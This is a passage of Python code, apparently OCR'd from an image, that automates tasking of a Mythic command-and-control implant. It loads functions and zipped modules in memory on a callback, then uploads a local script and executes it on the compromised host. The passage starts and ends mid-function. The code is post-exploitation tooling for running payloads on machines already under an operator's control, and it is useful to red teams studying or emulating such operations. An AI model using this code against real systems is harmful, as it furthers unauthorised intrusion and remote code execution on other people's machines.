         # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {} function.\n".format(function))

    print("\n-------------------------------")
    print("[*] Loading required modules...")
    print("-------------------------------\n")
    # read each module zip and submit load_module task
    for module in modules:
        print("[*] Loading {} module in-memory".format(module))
        fc = open(modules[module], "rb").read()

        task = mythic_rest.Task(
            callback=callback_id, 
            command=mythic_rest.Command(cmd="load_module"), 
            params={"module_name":module}, 
            files=[
                mythic_rest.TaskFile(
                    content=fc, 
                    filename=modules[module], 
                    param_name="file")
            ]
        )

        # submit the task and wait until it's completed to load the next
        submit = await mythic.create_task(task, return_on="")
        
        if submit.status == "success":
            print("[+] Successfully loaded {}.\n".format(module))

    # Read the script from local disk
    fc = open(script, "rb").read()
    
    print("-------------------------------")
    print("[*] Executing script...")
    print("-------------------------------\n")
    # create task for executing script
    task = mythic_rest.Task(
        callback=callback_id, 
        command=mythic_rest.Command(cmd="load_script"), 
        params={}, 
        files=[
            mythic_rest.TaskFile(
                content=fc, 
                filename=script, 
                param_name="file")
        ]
    )
    